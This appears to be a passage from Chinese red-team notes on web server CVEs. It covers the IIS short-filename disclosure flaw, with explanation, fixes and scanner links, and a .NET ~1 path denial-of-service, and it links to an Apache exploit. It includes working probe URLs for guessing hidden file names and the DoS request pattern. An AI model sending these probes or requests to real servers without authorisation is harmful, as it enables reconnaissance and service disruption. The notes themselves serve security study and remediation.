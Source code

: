 - POC | Payload | exp
    - [CVE-2019-0211-apache](https://github.com/cfreal/exploits/tree/master/CVE-2019-0211-apache)

---

## IIS

**IIS shortname**
- 简介

    windows 在创建一个新文件时,操作系统还会生成 8.3 格式的兼容 MS-DOS 的(短)文件名,以允许基于 MS-DOS 或16位 windows 的程序访问这些文件.

- 修复方案
    1. 升级 .net framework 至 4.0 版本或以上
    2. 修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem 值 NtfsDisable8dot3NameCreation 为 1

- 文章
    - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
    - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
    - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

- POC | Payload | exp
    ```bash
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    # 若1返回404而2返回400,则可以判断目标站点存在漏洞.
    http://www.xxx.com/a*~1*/.aspx
    # 若存在将返回404,不存在则返回400.以此类推,不断向下猜解所有的6个字符.
    ```

    ![](../../../../../assets/img/安全/笔记/RedTeam/Web安全/Web_CVE漏洞记录/3.jpg)

    ```
    Windows Server 2008 R2
    查询是否开启短文件名功能:fsutil 8dot3name query
    关闭该功能:fsutil 8dot3name set 1

    Windows Server 2003
    关闭该功能:fsutil behavior set disable8dot3 1
    ```
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

**.Net Framework 拒绝服务攻击**
- 简介

    当请求文件夹名称包含 `~1` 的请求,会导致不存在该文件的 .Net Framework 去递归查询所有根目录.如果只有一个"~1"是无效的,当"~1"大于一个,比如像这样:

    `/wwwtest/fuck~1/~1/~1/~1.aspx`

    此时文件系统会这样调用:
    ```
    \wwwtest                           SUCCESS
    \wwwtest\fuck~1\~1\~1\~1           PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND
    \wwwtest\fuck~1\~1\                PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\             PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1\~1.aspx      PATH NOT FOUND
    \wwwtest\fuck~1\~1\~1              PATH NOT FOUND
    \wwwtest\fuck~1\~1                 PATH NOT FOUND
    \wwwtest\fuck~1                    NAME NOT FOUND